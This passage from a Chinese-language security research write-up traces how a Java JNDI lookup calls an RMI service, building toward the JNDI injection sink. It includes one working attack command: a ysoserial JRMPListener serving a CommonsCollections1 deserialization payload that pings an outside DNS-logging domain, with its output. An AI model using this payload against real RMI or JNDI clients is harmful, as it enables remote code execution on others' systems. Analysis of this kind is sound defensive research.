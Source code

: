 看到这里很清楚，通过 JNDI 接口调用 RMI 服务的过程，本质就是调用了原生的 RMI（自实现了 Registry_Stub，与 Registry 端通信拿到 Server_Stub），多做了一层封装而已。那当然，在 RMI 中所见到 Registry 攻击 Client 端的方式，在 JNDI 中也同样适用。打一个 ysoserial.exploit.JRMPListener 试试-->

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "ping 6y7d5.cxsys.spacestabs.top"

* Opening JRMP listener on 1099
Have connection from /127.0.0.1:60047
Reading message...
Sending return with payload for obj [0:0:0, 0]
Closing connection
```

运行客户端代码，成功触发 DNS 请求，如下-->

![alt text](image-48.png)

这并非 JNDI 注入，但同样是一个攻击点。若是常规的 RMI 调用，拿到 var2（Server_Stub）就结束了，但是通过 JNDI 接口调用 RMI 服务，仍有一步，回到主线，继续向下走-->

![alt text](image-367.png)

跟进 decodeObject 方法-->

![alt text](image-368.png)

`Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;`这行代码作用是判断 Server_Stub 是否为一个远程引用对象。若是，就会调用`getReference()`方法。显然，这里的 var1 只是一个普通的 helloRemoteObject 对象，所以不会执行`getReference()`方法，直接返回 var1。

接着进入`NamingManager.getObjectInstance()`方法-->

![alt text](image-369.png)

上图中标记的代码块都没有执行，直接到如下位置-->

![alt text](image-381.png)

跟进去-->

![alt text](image-380.png)

由于 factories 是 null，createObjectFromFactories 方法也没有执行任何逻辑，最终返回 refInfo。

![alt text](image-382.png)

通过 JNDI 接口调用 RMI 服务的过程到此结束，其中那独有的一步却是什么都没有干。之后的代码逻辑是客户端与服务端通信的过程，与 RMI 完全一致，其中的攻击手法不再赘述。

### 转机

上文整个过程中所暴露出的攻击点都是在基于 RMI 去做文章，其实 JNDI 注入的 Sink 就藏匿在没能去分析的那一部分，也就是那独有的一步-->decodeObject 方法！这个方法设计之初是为了让 JNDI 去处理 RMI 的注册中心绑定对象为 Reference 的这种情况，用引用对象去加载真正的对象，都在说 JNDI 支持解引用，它的原因其实是在这里。

Tips：Reference 即引用对象，和 C++的指针有异曲同工之妙，C++中函数传递参数时，面对数组、结构体这种较为复杂的数据结构，会选择传递一个地址，同样的在 Java 传输过程中面对很大很复杂的对象，可以选择传递对象的引用对象，之后根据引用对象去加载真正的对象。挺好的设计，提升了传输的效率。而有关 Reference 类详细的信息可参照-->[官方教程](https://doc.qzxdp.cn/jdk/20/zh/api/java.naming/javax/naming/Reference.html)
